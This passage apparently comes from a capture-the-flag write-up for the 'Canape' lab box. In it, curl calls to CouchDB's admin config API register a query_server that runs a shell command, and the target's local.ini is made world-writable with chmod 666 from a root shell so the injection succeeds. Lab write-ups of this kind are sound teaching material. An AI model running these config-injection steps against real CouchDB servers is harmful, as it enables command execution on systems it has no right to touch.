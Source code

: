     
    
    www-data@canape:/var/www/git$ curl 'http://0xdf:df@localhost:5984/_membership'
    {"all_nodes":["couchdb@localhost"],"cluster_nodes":["couchdb@localhost"]}
    
    www-data@canape:/var/www/git$ curl http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers
    {"coffeescript":"./bin/couchjs ./share/server/main-coffee.js","javascript":"./bin/couchjs ./share/server/main.js"}
    

From there, we should add a query_server and then invoke it, but we aren’t
able to.

    
    
    www-data@canape:/var/www/git$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
    {"error":"badmatch","reason":"{badrpc,{'EXIT',{{{badmatch,{error,eacces}},\n                  [{config_writer,save_to_file,2,\n                                  [{file,\"src/config_writer.erl\"},{line,38}]},\n                   {config,handle_call,3,[{file,\"src/config.erl\"},{line,222}]},\n                   {gen_server,try_handle_call,4,\n                               [{file,\"gen_server.erl\"},{line,629}]},\n                   {gen_server,handle_msg,5,\n                               [{file,\"gen_server.erl\"},{line,661}]},\n                   {proc_lib,init_p_do_apply,3,\n                             [{file,\"proc_lib.erl\"},{line,240}]}]},\n                 {gen_server,call,\n                             [config,\n                              {set,\"query_servers\",\"cmd\",\n                                   \"/sbin/ifconfig > /tmp/df\",true,nil}]}}}}","ref":1617834159}
    

Some Googling shows that this is an issue with permissions. In fact, if we
check with out root shell, we can see that the `local.ini` file is not
writable by anyone, let alone www-data:

    
    
    root@canape:/home/home/etc# ls -ls local.ini
    8 -r--r--r-- 1 homer homer 4841 Sep 14 17:11 local.ini
    

So that’s a dead end for Canape. But if we want to try to get it working, we
can make it readable with our root or homer access, and continue down this
path. We’ll make a backup of the original so we can see what changes:

    
    
    root@canape:/# cp /home/homer/etc/local.ini /home/homer/etc/local.ini.b
    root@canape:/# chmod 666 /home/homer/etc/local.ini
    

Now, back to our www-data shell:

    
    
    www-data@canape:/dev/shm$ curl -X PUT 'http://0xdf:df@localhost:5984/_node/couchdb@localhost/_config/query_servers/cmd' -d '"/sbin/ifconfig > /tmp/df"'
    ""
    

We get back the previous value for the cmd query server, which means success.
And in the root shell, we can see it worked:

    
    
    root@canape:/home/homer/etc# diff local.ini local.ini.bk
    48c48
    < cmd = /sbin/ifconfig > /tmp/df
    ---
    > cmd =
    